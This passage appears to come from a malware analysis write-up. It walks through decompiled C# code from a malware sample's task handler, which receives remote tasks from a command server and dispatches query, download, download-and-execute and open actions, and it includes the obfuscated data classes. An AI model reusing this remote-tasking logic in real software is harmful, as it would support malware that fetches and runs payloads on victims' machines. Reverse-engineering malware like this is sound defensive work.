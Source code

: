 We can easily find out that after sending all the retrieved info to the server, the malware now waits for the server to tell it what to do (“remote tasks”).

If we look at the ReleaseUpdates, we can find out what the remoteTasks (List<Entity6>) is, so we can also find out what Entity6 corresponds to. It’s obviously data sent from server → client:
```csharp
public List<int> ReleaseUpdates(IEnumerable<Entity6> tasks)
{
  List<int> list = new List<int>();
  try
  {
      foreach (Entity6 task in tasks)
      {
          if (Result.DomainExists(task.Id4))
          {
              QueryCmd queryCmd = new QueryCmd();
              if (queryCmd.IsTrue(task.Id3) && queryCmd.Query(task))
              {
                  list.Add(task.Id1);
              }
              DownloadUpdate downloadUpdate = new DownloadUpdate();
              if (downloadUpdate.IsValidAction(task.Id3) && downloadUpdate.Process(task))
              {
                  list.Add(task.Id1);
              }
              DownloadAndExecuteUpdate downloadAndExecuteUpdate = new DownloadAndExecuteUpdate();
              if (downloadAndExecuteUpdate.IsValidAction(task.Id3) && downloadAndExecuteUpdate.Process(task))
              {
                  list.Add(task.Id1);
              }
              OpenUpdate openUpdate = new OpenUpdate();
              if (openUpdate.IsValidAction(task.Id3) && openUpdate.Process(task))
              {
                  list.Add(task.Id1);
              }
          }
      }
```

```csharp
[DataContract(Name = "Entity6", Namespace = "Entity")]
public class Entity6
{
  public int Id1 { get; set; }
  public string Id2 { get; set; }
  public Entity15 Id3 { get; set; }
  public string Id4 { get; set; }
}

[DataContract(Name = "Entity15", Namespace = "Entity")]
public enum Entity15
{
  Id1,
  Id2,
  Id3,
  Id4,
  Id5
}
```
